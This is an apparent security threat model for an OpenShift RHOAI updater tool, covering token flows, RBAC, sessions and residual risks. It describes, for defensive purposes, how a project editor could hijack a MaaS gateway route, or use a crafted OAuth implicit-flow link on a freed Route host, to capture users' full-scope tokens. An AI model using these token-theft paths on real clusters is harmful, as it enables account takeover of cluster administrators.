

# Security Model

The updater runs as one pod with two containers: **oauth-proxy** (OpenShift sign-in) and **app** (the Go backend and the static UI). Since 4.0.0 every change to the cluster is made **with the signed-in user's own OpenShift token**: the API server checks each change against that user's RBAC, and its audit log names them. Since 5.0.0 every user RHOAI allows can sign in and sees what is theirs: cluster-admins see everything, everyone else a reviewed cluster summary and their own projects, read with their own token ([Per-user views](#per-user-views-500)). The app's ServiceAccount (SA) only reads (the admin pages, the summary and the registry), keeps the app's own records, and runs one background job that only takes away (the MaaS prune job). A leaked SA token is read-mostly; it can no longer create workloads, Secrets or RBAC anywhere.

**Contents**

1. [Threat model](#threat-model): who can do what, which token goes where, the user token's exposures, network exposure, known limitations
2. [Per-user views (5.0.0)](#per-user-views-500): who signs in, the read tiers, what each user read reads, the summary's fields, caches and errors
3. [Sign-in and access policy (4.0.0)](#sign-in-and-access-policy-400): the flow, every authorization check, the OAuthClient, sessions, abuse limits, local development
4. [ServiceAccount RBAC](#serviceaccount-rbac): what the app's own token may do, the MaaS prune job, and the RBAC reads that find module operators
5. [CI and release supply chain](#ci-and-release-supply-chain): where the image comes from
6. [Per-feature notes](#per-feature-notes): credentials, S3 storage and pipelines, MLflow samples, models and the inference gateway, the playground, Models as a Service, prerequisites, the nodes' pull secret, the DataScienceCluster
7. [History](#history): the RBAC audits of earlier template revisions ([docs/SECURITY_HISTORY.md](docs/SECURITY_HISTORY.md))

## Threat model

### Who can do what

| Who | Can |
|---|---|
| Anyone RHOAI lets in: may `get` `auths.services.platform.opendatahub.io` (the oauth-proxy `--openshift-sar` gate; by default every OpenShift user, 5.0.0) | Open the UI; see the cluster summary, Build Explorer and their own projects' Environment parts, read with their own token ([Per-user views](#per-user-views-500)) |
| Users with the **cluster-admin** role | See every page, and run every action that changes the cluster, with their own token |

Changes require cluster-admin because the tool does cluster-admin work: it installs an operator (OLM grants whatever the CSV asks for), writes the node pull secret in `kube-system`, deletes admission webhooks and patches CRDs. Namespace `admin`/`edit` and `dedicated-admin` are not enough. The gate is checked before anything starts; the API server then checks every request of the change against the same user's RBAC.

### Which token is used where

The rule: a user's full OpenShift token goes only to Red Hat platform services (the API server, MLflow, the dashboard and its gen-ai API), never to pods in user projects, which those projects' editors control (model servers, pipeline servers): they can make a pod answer at such an address and read what is sent to it. The SA's token, which any signed-in user's reads use, never goes to a platform service that passes it on to such an address ([below](#the-serviceaccount-token-and-models-as-a-service-301)).

| Token | Sent by | Sent to | For |
|---|---|---|---|
| The signed-in user's own token (oauth-proxy's session, scope `user:full`, forwarded as `X-Forwarded-Access-Token`) | the updater's backend | the API server; MLflow (adding and removing samples, and since 5.0.0 the samples status) and the dashboard's gen-ai API (Set up, delete and Clean up of a playground, which may add a Models as a Service model; since 5.0.0 the Playground status), both platform services in RHOAI's namespaces | who the user is and whether they are a cluster-admin (on every request), the expiry and scope of their sign-in (before a change), **every cluster change** (4.0.0), and the user-token reads of 5.0.0 (their projects, the Playground and samples status, a user's project).  Never to a pipeline server's or a model's address |
| The updater's ServiceAccount token (`DEV_TOKEN` in DEV_MODE) | the updater's backend | the API server | the admin pages' reads, the cluster summary and the registry lookups (5.0.0: no longer MLflow or the gen-ai API), the app's own records (activity, snapshot, operation lease and marker), the readiness probe, the background MaaS prune job, and the gitops profile's Update. Never to a gen-ai call that reaches Models as a Service (3.0.1) |
| The user's own token, from `oc whoami -t` | the user, with commands the UI shows | `oc` itself; MLflow (`MLFLOW_TRACKING_TOKEN`); the dashboard's gen-ai API (the Playground's chat request) | the user's own MLflow and playground calls |
| A model's own token (Secret `default-name-<model>-sa`; it may only `get` that model) | the user, with the Models tab's commands | the model's address on the gateway it is reached through | calling that model. Shown only for this tool's model with its recorded token Secret; never the user's token |
| The same model's own token, read by the updater's backend (4.0.0) | the updater's backend, for "Can it be called?" (with the user's token, during the change; with the SA's, never: the SA cannot read token Secrets since 4.0.0) | that model's address as KServe reports it (`status.url`, `https` only, no redirects followed) | one minimal request after setup and on **Check again**. Read only from the Secret whose UID the tool recorded, of type `kubernetes.io/service-account-token` for `<model>-sa`; held for that one request, never logged, stored or shown. Never the user's token nor the updater's |
| A ServiceAccount token that may only use one pipeline server's API, for 15 minutes (`oc create token pipeline-api`) | the user, with the Pipelines tab's commands and the KFP snippet | the pipeline server's Route | uploading and running pipelines. Never the user's token |
| A MaaS API key | the user | MaaS models on `maas-default-gateway` | calling published models |
| The user's own token, to create that key | the user (the MaaS tab's commands), and the dashboard's MaaS pages; since 4.0.0 also the dashboard's gen-ai API when the user sets up a playground with a MaaS model through this tool, and since 5.0.0 when an environment recipe's Playground step sets up a new playground with the recipe's model, which is then offered only through MaaS (`maas/models`, and `lsd/install` with that model) | maas-api at `maas.<apps domain>/maas-api`, through `maas-default-gateway` | minting the key (or listing the MaaS models) for the user's identity |

The last row breaks the rule, and the final review of 3.0.0 found no client-side way around it. maas-api trusts the identity headers the gateway's AuthPolicy sets and does not check a bearer token itself (models-as-a-service rhoai-3.6 `maas-api/cmd/main.go`, the `/v1/api-keys` routes behind `ExtractUserInfo`), so a key is minted through the gateway; the dashboard does the same: its MaaS backend asks maas-api's Service only for `/v1/tenants`, then calls `<maas-default-gateway externalUrl>/maas-api` with the user's token (odh-dashboard rhoai-3.6 `packages/maas/bff/internal/helpers/maas_discovery.go` `MaasApiURLFromTenantsResponse`, `integrations/maas/maas_client.go` `addIdentityHeaderToRequest`; `MAAS_API_URL` is not set in `manifests/modules/maas/deployment.yaml`). The gateway admits routes from every project that has a published model, and Gateway API ranks an `Exact` path above maas-api's prefix route, so an editor of such a project could attach a route for `/maas-api/v1/api-keys` and receive the token of whoever creates a key, from a terminal or from the dashboard. Publishing a project's model therefore trusts its editors with that; it is a property of RHOAI's MaaS design, not of this tool. Since 4.0.0, setting up a playground with a MaaS model through this tool is the same exposure as doing it in the dashboard: the user's own token, by the user's choice.

#### The ServiceAccount token and Models as a Service (3.0.1)

Until 3.0.1 the Playground's status and Set up sent the updater's ServiceAccount token to gen-ai calls that the dashboard passes on to the MaaS gateway, so the token could reach the route a published project's editor attaches there, as the user's token can above. The flows, in odh-dashboard rhoai-3.6 (`packages/gen-ai/bff/internal`, `packages/maas/bff/internal`):

- *How the token travels.* The gen-ai API's `AttachBFFMaaSClient` (`api/middleware.go` L433, L469, L518) builds a MaaS client with the caller's token; `integrations/bffclient/client.go` L108-112 sends it as `x-forwarded-access-token` to the MaaS backend, whose `integrations/maas/maas_client.go` `addIdentityHeaderToRequest` (L365-368) sends `Authorization: Bearer <token>` to `<maas-default-gateway externalUrl>/maas-api/v1/...` (`helpers/maas_discovery.go` `MaasApiURLFromTenantsResponse` L216-243, `maas_client.go` `SetBaseURL` L93-109).
- *`GET maas/models`* (`api/app.go` L554, `api/maas_models_handler.go` L39) calls the MaaS backend's `GET /models` (`maas/bff/internal/api/app.go` L300, `ListModelsHandler`): the token goes to `/maas-api/v1/models`.
- *`POST lsd/install` with a MaaS model* (`api/app.go` L533, `api/lsd_install_handler.go` L36-71): `integrations/kubernetes/token_k8s_client.go` L1936-1946 passes the caller's token and `generateLlamaStackConfig` lists MaaS models through the MaaS backend (L2367-2386). An install with only the project's own models makes no MaaS call.
- *`GET aaa/models`* (`api/app.go` L513) asks MaaS only for `sources=maas` (`api/aaa_models_handler.go` L96-110, L200); without `sources` it lists the project's own models and custom endpoints.
- *`POST maas/tokens`* (`api/maas_tokens_handler.go` L106) and *`POST lsd/responses` with a MaaS model* (`api/lsd_responses_handler.go` `getMaaSTokenForModel` L979-1022, L1172) mint a MaaS key at `/maas-api/v1/api-keys` with the caller's token. The tool never calls them.
- `lsd/status` and `lsd/delete` make no MaaS call.

Now (`pkg/cluster/internal/features/playground.go`):

- **With the SA's token** (the status until 5.0.0; since then no SA client calls the gen-ai API, and the rule stays for any that would; `genAICallAllowed`): only `GET aaa/models` without `sources`, `GET lsd/status`, `DELETE lsd/delete` and `POST lsd/install` with the project's own models are allowed, and the status makes only the first two; anything else is refused before a request is sent. The status lists MaaS models from their MaaSModelRefs and the MaaSSubscriptions that offer them with the Kubernetes API.
- **With the user's own token** (Set up, delete, Clean up; 4.0.0, `genAIUserCallAllowed`; since 5.0.0 also an environment recipe's Playground step, which sets up a new playground with the recipe's MaaS model when the recipe publishes it through MaaS or reaches it through MaaS, so it sends the user's token to the MaaS gateway through `maas/models` and `lsd/install` exactly as the tab does): also `GET maas/models` and `POST lsd/install` with a MaaS model, so Set up can add a Models as a Service model again, listed and installed by the dashboard for that user, as in the dashboard itself. Every install still has only the fields Set up sends (`enable_tracing` and `enable_guardrails` false, `vector_stores` empty, model fields `model_name`, `model_source_type`, `model_type`, `embedding_dimension`); `maas/tokens`, `lsd/responses` and any other path stay refused. A client that is not the user's own (`Client.ActsAsUser` and the token is the client's) gets the SA rules.

Tests: the fake gen-ai API fails a test on any MaaS call made with a token other than the user's (`TestPlayground_GenAIClientRefusesCallsThatReachMaaS`, `TestPlayground_SetupWithTheServiceAccountNeverAddsAMaaSModel`, `TestPlayground_SetupWithTheUsersTokenAddsAMaaSModel`, `TestPlayground_StatusListsMaaSModelsFromTheirModelRefs`). Not yet checked live: a playground set up through this tool with a MaaS model on RHOAI 3.6.

### Threat model of the user token (4.0.0)

What changed (`install.sh` and the chart's full profile; not the chart's gitops profile): the session cookie oauth-proxy sets now carries a token that can act with the user's whole RBAC (most users of this tool are cluster-admins), for up to the cookie's lifetime (`--cookie-expire=23h`, below the 24h default token lifetime). Before, it carried a token that could only identify the user.

| Exposure | Who could use it | Mitigation |
|---|---|---|
| A stolen session cookie | someone who also has the cookie secret (Secret `<APP_NAME>-proxy`, key `session_secret`): the cookie is AES-encrypted with it (openshift/oauth-proxy `providers/session_state.go`) | the cookie is `HttpOnly; Secure; SameSite=Lax`; only namespace admins of the app's namespace can read the Secret (treat that namespace's `admin` as privileged); no CORS; a strict CSP. Log out clears the cookie but does not revoke the token (see [Sessions and CSRF](#sessions-and-csrf)); `oc delete oauthaccesstokens --field-selector clientName=<APP_NAME>-<NAMESPACE>` revokes every sign-in of the install, not instantly ([Revoking a sign-in](#revoking-a-sign-in)) |
| The OAuth client secret (Secret `<APP_NAME>-oauth-client`) | someone who can read it can exchange a code issued to this client for a token; codes go only to the registered redirect URI on the app's own Route | readable only by admins of the app's namespace; rotate by deleting the Secret and re-running `install.sh` (all sign-ins of the install end) |
| Whoever serves the client's redirect host | The OAuth server also answers the implicit flow (`response_type=token`, openshift/oauth-server `pkg/osinserver/defaults.go`), which needs no client secret: with `grantMethod: auto`, a link to `/oauth/authorize?client_id=<APP_NAME>-<NAMESPACE>&response_type=token&redirect_uri=https://<Route host>/oauth/callback` sends a signed-in user's token straight to that host. **The client secret is not the barrier; the Route's host is.** While the namespace and Route exist, nobody else can serve that host. Once they are gone but the OAuthClient stays, a project admin who creates a Route with the freed host (a custom host) receives the `user:full` token of whoever (a cluster-admin) opens such a link | the client is removed on every path the tool controls (below: uninstall, rollback to 3.x, the chart's PostDelete hook). **Deleting the namespace by hand leaves it** (live-checked): run `install.sh uninstall`, which works after the namespace is gone, or delete it and revoke its sign-ins by hand (below); `scopeRestrictions` allow exactly `user:full`, so the client's id cannot get another scope. RHOAI's own `data-science` client (the dashboard's) has the same shape (`grantMethod: auto`, implicit flow answered): this follows the product standard; the difference is lifetime, the dashboard's client lives as long as RHOAI. If an install's client outlives it anyway: `oc delete oauthclient <APP_NAME>-<NAMESPACE>` and `oc delete oauthaccesstokens --field-selector clientName=<APP_NAME>-<NAMESPACE>` |
| The app's memory and process | anyone who can `exec` into the app container sees the tokens of running operations, and of a running environment recipe for the whole run (up to a few hours; [Environment recipes](#environment-recipes-500)) | the same people (namespace admins) can already read the session secret; the container runs non-root, read-only, no privilege escalation |
| A token passed on by a platform service | the dashboard's gen-ai API passes the caller's token to the MaaS gateway, which published projects' editors can attach routes to | only when the user sets up a playground with a MaaS model (their choice, the same as in the dashboard); the SA's token never takes that path |
| `--cookie-refresh` | openshift/oauth-proxy validates a refresh by sending the token as a query parameter, which the API server ignores (so every refresh signs the user out) and which it logs on a network error | not set; `TestTemplateOAuthProxySignsInThroughTheOAuthClient` keeps it out |

Hardening not applied (it would shorten every session): an `accessTokenMaxAgeSeconds` on the OAuthClient (for example 8h) with a matching `--cookie-expire`, or a role scope (`role:<writer-role>:*:!`) instead of `user:full`. The dashboard's gen-ai API expects a `user:full` token (it lists namespaces and runs SSARs with it), so a role scope would need its reads listed too.

### Network exposure

| Port | Where | Who can reach it |
|---|---|---|
| 8080 | app, bound to `127.0.0.1` (`BIND_ADDRESS`) | only oauth-proxy in the same pod. The API is never exposed on the pod IP |
| 8443 | oauth-proxy, Service port `https`, Route (TLS `reencrypt`) | NetworkPolicy: only from the ingress (router) namespaces |
| 9090 | app, `METRICS_PORT`: `/api/health`, `/api/health/ready`, `/api/version`, `/metrics` only | NetworkPolicy: only from `openshift-monitoring` and `openshift-user-workload-monitoring`. Kubelet probes are node traffic and always allowed |

### Known limitations and residual risks

<a id="residual-risk"></a>
Since 4.0.0 a leaked SA token is read-mostly. It can still read pod and Deployment specs cluster-wide (inline environment values), events, CSVs, and four named Secrets in any namespace (`seaweedfs-s3-credentials`, `minio-secret`, `rhoai-nightly-updater-s3`, `maas-db-config`: the S3 keys and the MaaS database connection) plus `kube-system/additional-pull-secret` (the Quay pull credential). These Secret reads are the top residual risk; they serve ownership checks and the status, and a follow-up could check the owning object or a recorded UID instead. Its writes are the app's own ConfigMaps and the prune job's named MaaS objects, of which `patch` on `maas-default-gateway` is the sensitive one ([The MaaS prune job](#the-maas-prune-job-400)). It can create nothing outside its namespace, so it has no escalation path. The session cookies now carry the signed-in users' full tokens instead ([Threat model](#threat-model-of-the-user-token-400)): namespace `admin` on the app's namespace (the cookie and client secrets, `exec` into the pod) is still effectively privileged.

- **S3 storage (SeaweedFS).** The Environment page's S3 storage runs SeaweedFS 4.54 (`ghcr.io/chrislusf/seaweedfs`, Apache-2.0, pinned by digest), the object store upstream Kubeflow Pipelines uses by default. It replaced the bundled MinIO, whose open-source line ended (advisories such as GHSA-hv4r-mvr4-25vw are fixed only in the commercial AIStor). SeaweedFS is not supported by Red Hat, publishes advisories often (bump the digest when one applies), and `weed mini` opens many listeners: master, volume and filer HTTP/gRPC, Iceberg and Lance, plus the admin's worker gRPC on loopback, and the master and filer HTTP APIs need no authentication. Mitigations:
  - NetworkPolicy `seaweedfs-ingress`: only the S3 port 8333 from pods in any namespace and the admin UI port 12535 only from the router; every other port is unreachable from the pod network. The admin's compatibility listener on the old port 23646 is turned off (`-admin.port.legacy=0`);
  - no Route to the S3 API;
  - credentials random per install; the admin UI requires a login (user `admin`, password from the Secret), except `/health` and `/metrics`, which SeaweedFS serves to anyone (4.54 `weed/admin/handlers/admin_handlers.go` L64-69, "no auth required"). So anyone who can reach the Route `seaweedfs-admin` (it is on the cluster's apps domain) can read `/metrics`: the Prometheus registry of the whole `weed mini` process, that is Go runtime and process figures and SeaweedFS's own counters, including per bucket (`pipelines`) its size, object count, traffic and S3 request counts by type and status code. It holds no keys, object names or data. The Route is only a convenience for the admin UI; a cluster-admin who wants no public endpoint deletes it (`oc delete route seaweedfs-admin -n seaweedfs`; the next Set up of the storage makes it again) and uses `oc port-forward -n seaweedfs svc/seaweedfs-s3 12535:12535`, then `http://localhost:12535`. The tool does not change SeaweedFS's routes;
  - the admin password is its own random value, not the S3 secret key the pipeline projects hold, and is passed as an environment variable, not an argument, so `ps` does not show it. Anyone who can `oc exec` into the pod or read `seaweedfs/seaweedfs-s3-credentials` (cluster-admins) can still read it. Since 5.0.0 the pipeline projects hold keys of their own, not these ([S3 storage keys](#s3-storage-keys-a-key-per-pipeline-server-500)); storage an earlier version set up still has the admin key in every pipeline project's `nightly-dspa-s3` until Secure S3 storage runs;
  - logs: at startup SeaweedFS logs the S3 access key ID once ("Added admin identity from AWS environment variables: name=…, accessKey=…", `weed/s3api/auth_credentials.go:611` at 4.54). The access key ID is an identifier, not a secret, like an AWS access key ID; the secret key and the admin password are not logged (checked live on 4.48; the logging code is unchanged in 4.54). The pinned version could avoid that line only by loading the identity from an `-s3.config` JSON file (identities are then logged at verbosity 2 only), which would put the secret key into a second, tool-generated Secret; that is not worth it for an identifier.

  Any pod in the cluster that knows the access key can still reach the S3 API. The storage is meant for test data only. Storage an earlier version left in namespace `minio` (SeaweedFS behind the MinIO-era names, or MinIO itself) keeps running, with its own policies, until it is migrated or torn down.
- **Commands built from what the cluster reports.** The Use it commands carry text that project editors or whoever writes a status choose: a model's served name and address, a pipeline server's address. A cluster-admin who pastes them runs them with their own `oc` login. Both layers ([Abuse limits and input validation](#abuse-limits-and-input-validation): the backend withholds anything that is not a plain address or name; the UI single-quotes bodies, addresses and names) keep such text from becoming shell syntax; a withheld name or address means no command, never a guessed one.
- **Restarts.** A running operation delays a pod restart by up to ~17 minutes (see [README: cluster safety](README.md#how-the-tool-keeps-your-cluster-safe)); a running environment recipe by its current step only (it stops before the next one, as "stopped: restart"). A SIGKILL or node loss still interrupts it. There is no durable job queue; the next start reports the interrupted operation, and an interrupted recipe run, which a cluster-admin resumes after signing in (nothing resumes by itself: the new process has no user token, and the ServiceAccount never acts for the user). A replacement pod that starts while the old one drains refuses changes until the old operation ends (lease in the operation ConfigMap, no new RBAC).
- **External OIDC clusters are not supported.** Sign-in is oauth-proxy with `--provider=openshift` through the install's OAuthClient (the gitops profile: the ServiceAccount as OAuth client), and the app reads `users/~` and `useroauthaccesstokens`. A cluster set up for direct authentication with an external OIDC provider (`authentications.config.openshift.io/cluster` `spec.type: OIDC`) has no OpenShift OAuth server or OAuth API server, and no `*.user.openshift.io` or `*.oauth.openshift.io` APIs or OAuth clients (openshift-docs `modules/external-auth-disabled-resources.adoc`). `install.sh` reads that type with the installing user's `oc` and refuses `OIDC` before anything changes (also when it cannot read it); the Helm chart has no such check (Argo CD renders it without cluster lookups), so there the OAuthClient does not sync and sign-in fails.
- **Mirror visibility.** The GitHub mirror contains team-internal links (Bitwarden collection, Slack channels, the IPA realm and AWS SAML alias). They are access-controlled, but internal. Decide with the team whether the mirror should be private.

## Per-user views (5.0.0)

The design and the owner's decisions: [docs/research/per-user-views.md](docs/research/per-user-views.md). Template revision 8.

### Who signs in

oauth-proxy's gate is now `--openshift-sar={"verb":"get","resourceAPIGroup":"services.platform.opendatahub.io","resource":"auths"}`: the user may `get` RHOAI's Auth CR type, cluster-wide.

- **What oauth-proxy does with it.** openshift/oauth-proxy release-4.17 (a578b1d, the line of the pinned `ose-oauth-proxy-rhel9:v4.17`) wraps the flag's JSON in a list, adds `"scopes": []` (`providers/openshift/provider.go:202-207, 234-258`) and posts it with the user's token to `/apis/authorization.openshift.io/v1/subjectaccessreviews` (`:336`); a review that is not `allowed` refuses the sign-in (`ReviewUser`, `:489-526`, called for every session in `oauthproxy.go:349`). The body is the OpenShift `SubjectAccessReview`, whose inlined `Action` names the API group `resourceAPIGroup` (openshift/api release-4.17 `authorization/v1/types.go:351-373`): the Kubernetes key `group` would be dropped, and the review would ask for a core `auths`, which only cluster-admins pass. No `namespace`: "no distinction between no namespace and all namespaces" (same file), a cluster-wide check. Empty `user` and `groups`: the token's owner; `scopes: []`: their unscoped permissions (`:296-305`).
- **Who passes.** RHOAI binds exactly `get`/`list`/`watch` on `auths` to its Auth CR's `allowedGroups`, as ClusterRole `data-science-allowedgroupcluster-role` (red-hat-data-services/rhods-operator rhoai-3.6 452b4a5, `internal/controller/services/auth/resources/data-science-allowedgroup-clusterrole.tmpl.yaml:1-19`, bound by `auth_controller_actions.go:201`). The Auth CR is cluster-scoped (`api/services/v1alpha1/auth_types.go:51`) and its default `allowedGroups` is `system:authenticated`, so **by default every OpenShift user signs in**; an admin who narrows RHOAI's allowed groups narrows the updater too. Cluster-admins always pass. On a cluster without RHOAI no binding exists and only cluster-admins (or someone bound to that rule by hand) pass.
- **Both profiles.** The chart's gitops profile replaces only the OAuth client, scope and client Secret volume (`rnu.gitopsSignIn`), so it has the same gate; every read there still needs cluster-admin (`withGitOpsAdmin`) and every other route is refused, so its users who are not cluster-admins see only "Cluster-admin required".
- `TestOAuthProxySignInGateIsRHOAIsAllowedGroups` pins the flag (exactly one review, exactly these keys, no `--openshift-sar-by-host`).

**The app now receives the `user:full` token of every RHOAI user who signs in** (the session cookie and `X-Forwarded-Access-Token`), not only cluster-admins'. That widens the [threat model of the user token](#threat-model-of-the-user-token-400) to every such user: a stolen cookie (with the cookie secret) or `exec` into the app container exposes their tokens too. The backend uses a non-admin's token only for the reads below and for the checks every request makes (`users/~`, the cluster-admin review); it never logs, stores or returns it (`TestUserTokenIsNeverLoggedOrEchoed`). Changes still need the cluster-admin gate; nothing about them changed.

### Roles and read tiers

Two roles (`role` in `GET /api/user/permissions`): **admin** passes the mutation gate (`*`/`*`/`*` cluster-wide with the user's token, `mutationPermission`); **user** is everyone else, `rhods-admins` members who are not cluster-admins included. Every GET route has one tier (`pkg/api/route_tiers.go`, `getRouteTiers`); a GET route without one is admin-only (`tierOf`), and `TestEveryGetRouteHasATier` fails until a new route is classified.

| Tier | Routes | Read with | A user gets |
|---|---|---|---|
| admin-only | `/api/status`, `/api/components`, `/api/components/dsc`, `/api/components/dsc/plan`, `/api/debug`, `/api/dashboard/state`, `/api/dashboard/builds`, `/api/diagnostics`, `/api/setup/dsc/preview`, `/api/test-pull-secret`, `/api/verify-nodes`, `/api/latest-nightly`, `/api/nightly-tags`, `/api/resources/maas`, `/api/resources/maas/groups`, `/api/resources/prerequisites`, `/api/resources/models/exposures`, `/api/resources/s3/admin-password` | SA (as before) | 403 `admin_only` "Only cluster-admins can see this.", from `Register` (`adminOnly`) before the handler runs, so before any SA read |
| summary or registry | `/api/summary`, `/api/build-explorer/tags`, `/content`, `/contains` | SA | the reviewed summary below; Build Explorer as before (registry build metadata; the pull secret's credential is used, never returned) |
| user token | `/api/user/permissions`, `/api/resources/projects`, `/api/resources/projects/capabilities`, `/api/resources/playground`, `/api/resources/samples/mlflow`, `/api/resources/model-registry` | the user's own token (`withUserRead`, `cluster.NewUserClient`) | what their RBAC and the platform APIs' own access reviews allow |
| no cluster read | `/api/update-check`, `/api/resources/samples/pipeline/spec` | none | as before |
| per role | `/api/operation`, `/api/resources/status`, `/api/activity`, `/api/resources/workbench` | SA / the user's token | see below and [Project actions for non-admins](#project-actions-for-non-admins-500); an admin's answer is unchanged |

Probes (`/api/health`, `/api/health/ready`, `/api/version`, `/metrics`) are outside `Register` and unchanged.

### What each user read reads

- **Projects** (`GET /api/resources/projects`, both roles): `project.openshift.io/v1` projects with `labelSelector=opendatahub.io/dashboard=true`, the user's token (`ListUserDSProjects`). The projects API lists the namespaces the user may `get`, filtered by the selector and the token's scopes (openshift/openshift-apiserver release-4.17 6ea968b `pkg/project/apiserver/registry/project/proxy/proxy.go:91-102`, `pkg/project/auth/cache.go:478-518`, `pkg/project/auth/reviewer.go:49-56`); every authenticated user may list projects (basic-user, `pkg/bootstrappolicy/policy.go:461`, bound at `:766`). A cluster-admin sees every project. The SA's namespace list is no longer used for this route.
- **Playground status** (both roles): the projects as above; every gen-ai call (`aaa/models` without `sources`, `lsd/status`) with the user's token, so the dashboard's own access review (`list ogxservers` in the project) checks the user; the fan-out covers only the user's projects; the project's OGXServer (ownership check), the MaaS models list (MaaSModelRefs, usually not readable by a project user, then none) with the user's token. The SA reads what is no user data: the dashboard's address (Dashboard CR `status.url` or Route `rhods-dashboard`), the DSC's playground component state and whether Deployment `gen-ai-ui` is available, and the tool's own playground record, of which only the user's projects are used. A user who is not a cluster-admin gets those SA reads as fixed values only (`PlaygroundStatusForUser`): the operator's readiness (`True`/`False`), the gen-ai backend's state, and a block with the component key, its state (one of the CRD's values) and a fixed reason; never the DataScienceCluster's condition message or name (`TestPlaygroundStatusForUserHasNoServiceAccountText`, `TestPlaygroundStatusPerRole`). A failed SA read on a user route is answered with its HTTP status only, not its text (`TestUserReadErrorHidesServiceAccountText`).
- **MLflow samples status** (both roles): the project must be one of the user's (projects API); every MLflow call with the user's token, so MLflow's own reviews (`mlflow.kubeflow.org` in that workspace) check the user. The SA reads MLflow's CR (`status.url`, readiness) and the dashboard's address.
- **A user's Environment status** (`GET /api/resources/status?project=` for a user; without a project 403 `admin_only`): `types.ProjectStatus`, that project's DataSciencePipelinesApplications, LLMInferenceServices (with their pods when not ready), InferenceServices and, for the tool's pipeline server, its Connection Secret's metadata and the workbenches that use that Connection (a `list` of Notebooks), all with the user's token in that namespace only (`GetProjectStatus`). A part the user may not read says so (`pipelineServersProblem`, `modelsProblem`, `inferenceServicesProblem`, each with a fixed `...ProblemCode`: `forbidden_for_user`, `not_installed` or `error`; a viewer's unreadable Connection is `unreadable`); the others are still shown. The SA finds the dashboard's address and reads the tool's records (which objects it made). The cluster-wide status (S3 storage, MLflow, the inference gateway, every project) stays admin-only.
- **Model registry status** (`GET /api/resources/model-registry`): ModelRegistry `nightly-registry` and its Service in the registries namespace, with the user's token (`userReadCR`, `userReadService`, which refuse the SA's client), and the sample model through the registry's gateway address with the user's token (only for the registry this tool created). The SA reads what is no user data: the DataScienceCluster (where registries live and whether the component is on) and the dashboard's address; the tool's record through the bookkeeping client.
- A project that is not the user's is refused (403 `forbidden_for_user`) after the projects read and before any read of its objects.

### The summary (`GET /api/summary`)

A fixed type (`types.Summary`; a new field is a reviewed change), read by the SA with the reads `/api/status` and the Components page already make (`cluster.GetSummary`): `updaterVersion`; `rhoai {installed, version, channel, phase}` (the Subscription and its CSV); `nightly {installedBuild {tag, buildDate}, latestBuild {tag, buildDate}, newerAvailable}` (the nightly CatalogSource and the Quay lookup of its stream, using the pull secret's credential only; nothing about the Secret is reported); `dsc {exists, ready, components: [{name, managementState, ready}]}`. When the nightly comparison is not known, `nightly.problem` says why with a fixed code (`catalog_unreadable`, `lookup_failed`, `no_stream`), so an unreadable CatalogSource or a failed Quay lookup never reads as "not a nightly install" or "the newest build". No name of a node, pod, project or user, no condition message, no pull-secret detail (`TestGetSummary` checks the encoded answer for them). A read error fails the request (no partial guess).

### The operation status for users

`GET /api/operation` for a user is `{running, label, startedAt}` (`types.OperationSummary`): the label is the kind's fixed text (`operationTypes`, "Update to nightly"), never the target, who runs it, the pod, an interrupted operation or the last one (`TestOperationForAUserNamesNobody`). The record is still read, and a pending marker clear retried, by the SA. When the role cannot be checked the user's answer is given (fail closed); an ended sign-in is 401.

### The frontend's fixtures

The UI's tests of these answers load JSON that `TestFrontendContract` (pkg/api) generates from the Go types through the real handlers, with a user's role (`frontend/src/test/contract/`; regenerate with `go test ./pkg/api -run TestFrontendContract -update-contract`). The Go test fails when the checked-in files differ, and `frontend/src/test/contract.ts` fails `tsc` when they no longer fit the frontend's types, so a field the UI reads cannot drift from what the backend sends.

### Caches

- Every cache of a user-token read is keyed by the token (`tokenKey`, a SHA-256 prefix): the playground status and fan-out (as before), and the MLflow samples status, now `token|invalidations|project` (before 5.0.0 it was keyed by the project only, `TestMLflowSamplesStatus_CachedPerUser`, `TestPlayground_StatusIsTheUsers`).
- The per-cluster caches named here are filled only by the SA: API discovery read with a user's client neither reads nor fills `apiVersionsCache` (`servedVersions`). RHOAI's namespaces (`NamespacesCache`), the control plane (`ControlPlaneCache`) and the dashboard's address (`URLCache`) are read through the facts client (below), for a change's client too; a client of the user's token without a facts client is refused for the namespaces (`ErrNoFactsClient`) and reads the other two afresh without caching, also when they are warm (`TestUserClientNeitherReadsNorFillsTheNamespaceCache`, `TestClusterFactCachesAreFilledOnlyThroughFacts`, `TestDashboardURLCacheIsFilledOnlyThroughFacts`). Exceptions until the models branch (non-admin design B6): a model's setup fills `serving.CapacityCache` and `serving.PlanCache` with the user's token.

### Cluster facts of a change (the facts client)

A change and a user read act with the user's token, but a few things they need are cluster-wide and no user data, and a project user's token may not read them. pkg/api gives the change's client, each recipe step's and a user read's the SA's client as their facts client (`SetFacts`, next to `SetBookkeeping`), and those reads go through `c.Facts()`: a read-only copy that sends only GET and HEAD (any other request fails with `ErrFactsReadOnly` before it leaves, in `doOnce`, the only place a request is sent), whose `BearerToken` is empty, and that carries no bookkeeper or signed-in user. "The facts client exposes no write method" (design §8.2) is enforced that way, not as a separate Go type: the read helpers all take a `*kube.Client`. This reading of the design is recorded for the owner's sign-off at the golden review.

| Fact | Read by (SA rule already in `deploy/template.yaml`) | Used by |
|---|---|---|
| RHOAI's applications and monitoring namespaces | DSCInitializations `list` | every change (`DiscoverNamespaces`) |
